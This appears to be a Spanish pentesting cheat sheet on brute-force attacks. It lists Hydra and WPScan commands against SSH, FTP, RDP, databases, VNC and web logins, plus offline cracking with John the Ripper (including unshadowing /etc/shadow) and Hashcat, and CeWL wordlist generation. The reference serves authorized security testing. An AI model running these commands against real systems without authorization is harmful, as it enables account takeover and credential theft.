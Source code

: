 ```yaml
---
layout: article
title: Pentesting - Fuerza bruta
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


Existen dos categorías principales de este tipo de ataques, aquellos que se hacen vía internet (**online**) y aquellos en los que no necesitamos realizar peticiones contra el servidor (máquina víctima) para descubrir la contraseña (**offline**), puesto que contamos con la contraseña encriptada/hasheada y tratamos de obtener la contraseña en plano desde nuestra máquina atacante.

<h1>Fuerza bruta vía online</h1>

Limitaciones:
* Sistemas de seguridad.
* Ancho de banda y capacidad de procesamiento (asimilación de la cantidad de peticiones).
* Configuración del servidor.
* Generación de registros en la máquina víctima (no es muy disimulado que digamos...).
* No se tiene control del resultado.

<h2><b>Hydra</b></h2>

<div class="grid" id="ssh-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u <IP> ssh -o ssh-creds.txt
hydra -l root -P passwords.txt -t 3 -s port <IP> ssh
~~~

<div class="grid" id="ftp-brute">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

~~~bash
hydra -l anonymous -P passwords.txt -v <IP> ftp -o ftp-creds.txt
hydra -L users.txt -P passwords.txt -t 3 -s 21 <IP> ftp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">RDP</div>
</div>

~~~bash
hydra -f -l Administrator -P /usr/share/wordlists/rockyou.txt -o rdp-creds.txt rdp://192.168.1.100
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MSSQL</div>
</div>

~~~bash
hydra -L /usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt 192.168.1.100 mssql -o mssql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">MySQL</div>
</div>

~~~bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt 192.168.1.100 mysql -o mysql-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">VNC</div>
</div>

~~~bash
hydra -s 5900 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -t 1 192.168.1.100 vnc -o vnc-creds.txt
~~~
<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Basic Auth</div>
</div>

~~~bash
hydra -L users.txt -P passwords.txt 192.168.1.100 http-head /webdav/ -o http-creds.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP - Tomcat</div>
</div>

~~~bash
hydra -C /usr/share/seclist/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 192.168.1.100 http-get /webauth 
~~~

<h2><b>WPScan</b></h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">HTTP</div>
</div>

~~~bash
wpscan --url http://192.168.1.100/wp --passwords=passwords.txt --usernames admin -t 20​
~~~

<h1>Fuerza bruta vía offline</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">John the Ripper</div>
</div>

Cracking de contraseñas en sistemas linux:

~~~bash
unshadow /etc/passwd /etc/shadow > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --fork=20 unshadow.txt
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Hashcat</div>
</div>

~~~bash
hashcat -m <tipo> <hashes> <diccionario>
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt # Diccionario
hashcat -m 1000 hashes.txt -a3 "?u?l?l?l?d?d?d?D" # Máscara
hashcar -O -w3 -m 2500 wpa.hccapx /usr/share/wordlists/rockyou.txt # "-O -w3" Aumentan la velocidad, pero consumen casi la totalidad de los recursos del sistema
~~~

<h1>Generación de diccionarios</h1>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">CeWL</div>
</div>
[https://github.com/digininja/CeWL.git](https://github.com/digininja/CeWL.git)

Generador de wordlists que recopila palabras clave de las URL del objetivo (spider del objetivo). Esta lista puede ser utilizada como diccionario para logins en aplicaciones web.

~~~bash
./cewl example.com -d 1 -w example-keywords.txt
~~~